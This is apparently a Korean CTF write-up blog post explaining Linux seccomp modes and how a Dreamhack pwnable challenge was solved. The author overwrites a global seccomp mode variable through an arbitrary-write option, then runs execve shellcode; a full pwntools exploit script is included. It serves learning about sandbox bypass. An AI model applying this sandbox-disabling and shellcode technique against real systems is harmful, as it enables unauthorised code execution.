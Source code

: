 ```yaml
---
layout: post
title:  "First Seccomp Bypass"
date:   2020-10-03
categories: ["2020","pwnable"]
update: 2020-10-03
comment: true
tags: [pwnable]ㅇ
---
```






dreamhack 50등을 향한 마지막 문제로 Seccomp를 우회하는 문제였다. 처음 만나본 거라서 천천히 강의 내용 읽고, 코드 읽고 풀어봤다.

# 🤔 SECCOMP(SECure COMPuting mode)?

## Introduction

![image](https://user-images.githubusercontent.com/51329156/94989512-5f870800-05b0-11eb-9d95-614e91286e02.png)

Linux kernel은 많은 `syscall`들을 유저권한의 프로세스들에게 노출시킨다. 근데 그 `syscall`들을 모두 쓰는 게 아니고, 일부만 쓰고 나머지 `syscall`들은 사용되지 않은 채로 둔다. 프로세스가 다른 위험한 `syscall`을 호출하게 두는 것은 보안상 문제가 있다. 

**Seccomp filtering**은 프로세스의 `syscall` 요청들을 필터링하는 매커니즘이다. 위의 사진을 보면 프로세스가 `syscall`을 한 후, filter들을 통과하지 못하면 `SIGKILL`으로 프로세스를 종료시킨다.



## ❓ HOW TO USE SECCOMP

**SECCOMP** 기능은 `prtcl()` 함수로 사용할 수 있다.

``` c
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
```

`option` 에 **PR_SET_SECCOMP**를 주면 **SECCOMP**를 설정할 수 있다.

**SECCOMP**를 설정할 때 사용할 수 있는 모드가 3가지 있다.

**seccomp.h**

``` c
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

### SECCOMP_MODE_STRICT

`read`, `write`, `exit`, `sigreturn` 시스템 콜의 호출만 허용하고, 이외의 시스템 콜의 호출 요청이 들어오면 SIGKILL 시그널을 발생하고 프로그램을 종료한다.

아래처럼 설정한다:

``` c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);
```



### SECCOMP_MODE_FILTER

필터링할 시스템 콜을 직접 지정해준다. 시스템콜을 관리할 때 **BPF(Berkeley Packet Filter)**라는 필터식을 이용해서 관리한다. **BPF**는 네트워크 패킷을 필터링하기 위해 만들어진 필터링 매커니즘인데, **SECCOMP**를 사용할 때도 이를 사용해 필터를 작성한다.

이 모드를 사용하려면 `no_new_privs` 비트가 설정되어 있어야 한다.

``` c
prctl(PR_SET_NO_NEW_PRIVS, 1)
```

그리고나서 아래처럼 설정한다:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, args);
```

이 모드를 사용할 때는 세 번째 인자로 전달되는 구조체인 `sock_fprog`에 대한 이해가 필요한데, 이 부분은 문제랑은 상관이 없어서 패스하도록 하겠다.



## SECCOMP BYPASS

### 🔎 Code

필요한 부분만 추려봤다:

``` c
...
int mode = SECCOMP_MODE_STRICT;
...
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
...
shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
...
    switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
```

이상하다고 느낀 점 👓

- 배울 때는 **FILTER_MODE** 일 때 `prctl()`에게 세 번째 인자로 `sock_fprog`의 주솔르 준다고 배웠다. 근데 **STRICT_MODE**인데도 줬다.
- `PR_SET_NO_NEW_PRIVS`도 마찬가지..

코드는 간단하다. `READ|WRITE|EXEC` 권한을 준 영역이 있다. 쉘코드를 입력할 수 있고, 실행도 할 수 있다. 원하는 주소에 값을 넣는 것도 가능하다.

일반적으로 사용하는 쉘코드는 `execve('/bin/sh')`의 기계어 코드다. `execve`는 **STRICT_MODE**에서 허용되지 않는 시스템 콜이다. 그래서 어떻게 우회해야 하지 생각하다가 `case 3`과 아까 이상하다고 느낀 점이 딱 맞아떨어져서 풀었다.

`mode`가 전역변수로 선언되어 있고, PIE가 꺼져있기 때문에 주소를 구할 수 있다. 현재 그 주소에 들어있는 값은 `0x1`이다. 이 것을  `0x2`로 바꿔주면  설정해준 필터가 없기 때문에 모든 시스템 콜을 사용할 수 있다! 그러면 `execve` 시스템 콜을 사용해서 쉘을 딸 수 있다 (`0x0`도 가능) 👍

### 🚀 Exploit

값을 바꾸기 전 **SECCOMP_MODE_STRICT**로 설정되어 있는 `mode` 변수 :

![image](https://user-images.githubusercontent.com/51329156/94990260-a297aa00-05b5-11eb-9a2a-6edf7f51e7ef.png)

저 변수의 값을 `case 3`을 이용해 `0x2`로 바꿔준다.

![image](https://user-images.githubusercontent.com/51329156/94990326-2b164a80-05b6-11eb-96c4-96b59eed8e92.png)

64비트 쉘코드를 `case 1`을 이용해 쓴다.

![image](https://user-images.githubusercontent.com/51329156/94990246-7bd97380-05b5-11eb-9d76-fe7f3cd4abcb.png)

`case 2`를 이용해 실행하면 된다.

#### ex.py

``` python
#!/usr/bin/python
# coding=utf-8
from pwn import *
import sys

context.arch = 'x86_64'
context.log_level='debug'

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',22463)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

# Adderss
mode_addr=e.symbols['mode']

log.info("mode address: {}".format(hex(mode_addr)))
shellcode=asm(shellcraft.amd64.linux.sh())

p.sendlineafter("> ","3")
p.sendlineafter("addr: ",str(mode_addr))
p.sendlineafter("value: ",str(2))


p.sendlineafter("> ","1")
p.sendlineafter("shellcode: ",shellcode)

p.sendlineafter("> ","2")

p.interactive()
```



![image-20201003202457446](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003202457446.png)

❗ 새로 배운 개념이긴 했는데 문제가 워낙 쉽고 저번에 디버깅 연습해놓은 게 있어서 생각보다 금방 풀었다 !